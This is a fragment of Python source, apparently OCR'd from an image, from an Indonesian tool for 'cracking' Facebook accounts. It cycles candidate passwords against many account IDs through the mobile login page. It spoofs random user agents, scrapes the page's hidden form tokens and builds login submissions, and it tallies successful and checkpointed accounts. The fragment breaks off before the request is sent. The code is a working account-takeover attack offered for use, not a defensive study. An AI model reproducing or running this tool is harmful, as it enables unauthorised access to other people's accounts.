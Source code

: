 	print('='*51)
	print('='*51)
	print('Lanjut Crack Kembali ( Y/t ) ? ')
	print('='*51)
	woi = input('└─ Pilih : ')
	if woi in ['y','Y']:
		back()
	else:
		print('='*51)
		print(f'Good Bye Dadaahh{x} ')
		print('='*51)
		time.sleep(2)
		exit()
#--------------------[ METODE-MOBILE ]-----------------#
def crack(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\rRFN {P}[{b}{loop}{P}/{u}{len(id)}{P}]—{P}[{H}{ok}{P}]—{P}[{k}{cp}{x}]—[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			ses.headers.update({'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
			p = ses.get('https://m.facebook.com/login.php?skip_api_login=1&api_key=124024574287414&kid_directed_site=0&app_id=124024574287414&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fdialog%2Foauth%3Fclient_id%3D124024574287414%26redirect_uri%3Dhttps%253A%252F%252Fwww.instagram.com%252Faccounts%252Fsignup%252F%26state%3D%257B%2522fbLoginKey%2522%253A%25221ri5o69ef67k6d9s38l3tx1zz1hbv015tb7cdwb6deqa4u2svv%2522%252C%2522fbLoginReturnURL%2522%253A%2522%252Ffxcal%252Fdisclosure%252F%253Fnext%253D%25252F%2522%257D%26scope%3Demail%26response_type%3Dcode%252Cgranted_scopes%26locale%3Did_ID%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Db97ff6fb-29af-412a-bb00-83c94a1003f1%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fwww.instagram.com%2Faccounts%2Fsignup%2F%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%2522fbLoginKey%2522%253A%25221ri5o69ef67k6d9s38l3tx1zz1hbv015tb7cdwb6deqa4u2svv%2522%252C%2522fbLoginReturnURL%2522%253A%2522%252Ffxcal%252Fdisclosure%252F%253Fnext%253D%25252F%2522%257D%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr') 
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://m.facebook.com/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-463c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'